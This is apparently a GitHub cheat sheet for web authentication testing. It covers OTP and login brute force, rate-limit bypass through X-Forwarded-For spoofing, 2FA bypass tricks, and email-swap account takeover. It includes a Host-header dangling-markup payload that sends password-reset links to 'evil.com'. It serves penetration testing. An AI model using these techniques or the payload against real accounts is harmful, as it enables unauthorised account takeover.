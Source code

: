 # Authentication Testing

## Login Page:
  - Try

## Email confirmation bypass:

  - Try response manupulate to cofirm email
  - while confirm email try this: intecept request to burp and change your mail to another person mail if you cloud get success. 
  
## OTP Relate Testing:

  - If you can manupulate response code to 200 and 302.
  - If you brute force login OTP
    - If WAF try Ip rote extension
    - Read some article and reports about rate limit bypass
  - While you confirming OTP try to change you email to victim email: if you cloud login as another user.

## Password Reset functionality:
  - Try to add Host header in reset password request.
  - While reseting password intercept request to burp and see if you cloud add <a href> tag and see in email if there anything changes. 

> Authentication:
	- Bypass Rate Limit with X-Forwarded-For: to pwn authentication
	- Host header injeciton in forgot password page
	- Test Remember me functionality
	- Test password reset and/or recovery
	- 2FA Bypass
		- Access the content directly (site.com/profile)
		- Login using Oauth gmail or FB to bypass 2FA
		- Reset Password and login inoto the account to bypass 2FA 
		- Use old toke or change the response
	- Goto the reset password page and add two emails while sending the reset password link
		[You can recive two password reset link]
	- Web Cache deception [site.com/profile/min.js]
	- PHP protection can be bypassed using [] such as password=1234 ----> password[]= (CSRF token too)
	- While resetting password change the host header to your server (VPS) = secret link to your VPS
	- Bypass rate limit protection: You can use IP-Rotate burp extension or you can change system IP per request.
	
	- Password reset poisoning via dangling markup
		Host: victim.com:'<a href="//evil.com/? Don't ">

	- Add X-Forwarded-For: 127.0.0.1 or 1-1000 to bypass the rate limit protection.

	- Login into the valid account and then into valid one, repeat this process to fool the sever to bypass the rate limit protection (observe that your IP is blocked if your submit 3 incorrect logins in a row. However, you can reset the counter by logging in to your own account before the limit is reached)

	- replace the single string value of the password with an array of string containing all of the candidate passwords, for Example:
```json
	"username": "test",
	"password": [
		"1234",
		"password",
		"qwerty"
		....
	]
```

	- If you enter the wrong code twice, you will be logged out again bypass it using macros (You need to use burp's session handlling features to log back in automatically before sending each request.)
	
